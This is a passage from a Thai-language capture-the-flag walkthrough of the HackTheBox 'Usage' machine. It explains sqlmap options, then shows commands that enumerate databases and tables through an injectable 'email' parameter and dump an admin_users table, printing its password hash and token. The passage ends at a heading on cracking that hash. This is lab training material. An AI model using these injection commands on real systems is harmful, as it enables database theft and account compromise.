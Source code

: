 | ส่วนของคำสั่ง     | ความหมาย                                                                              |
| ----------------- | ------------------------------------------------------------------------------------- |
| `sqlmap`          | เรียกใช้งานโปรแกรม SQLMap                                                             |
| `-r post.request` | อ่าน request จากไฟล์ `post.request` ที่คุณบันทึกไว้ เช่น จาก Burp Suite               |
| `--level 5`       | กำหนดระดับการทดสอบ SQLi ตั้งแต่ 1-5 (5 = ตรวจสอบมากที่สุด)                            |
| `--risk 3`        | กำหนดระดับความเสี่ยงของการทดสอบ SQLi ตั้งแต่ 1-3 (3 = ทดสอบแบบที่อาจกระทบระบบจริงได้) |
| `--threads 10`    | ใช้ 10 threads ในการโจมตีพร้อมกัน เพื่อเพิ่มความเร็ว                                  |
| `-p email`        | ระบุว่าต้องการตรวจสอบเฉพาะ parameter ที่ชื่อ `email`                                  |
| `--batch`         | ใช้ค่า default ทั้งหมดโดยไม่รอให้ผู้ใช้ตอบคำถามระหว่างทำงาน                           |
![[Challenge/HTB Challenge/Usage/IMG/011.png]]
ข้อมูลข้างต้นทำให้ทราบได้ว่าเป็นฐานข้อมูลชนิด MySQL  และต่อมาตรวจสอบ DBS 
## Enum DBS name 

```bash
sqlmap -r post.request --level 5 --risk 3 --threads 10 -p email --batch --dbs
```

จากภาพด้านล่างทำให้เห็นว่ามี database ชื่อ usage_blog อยู่ 
![[Challenge/HTB Challenge/Usage/IMG/012.png]]

## Enum Tables usage_blog 

```bash
sqlmap -r post.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog --tables
```

![[Challenge/HTB Challenge/Usage/IMG/013.png]]

## Dump admin

```bash
sqlmap -r post.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog -T admin_users --dump

| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |

```

![[Challenge/HTB Challenge/Usage/IMG/014.png]]


# Crack Hash
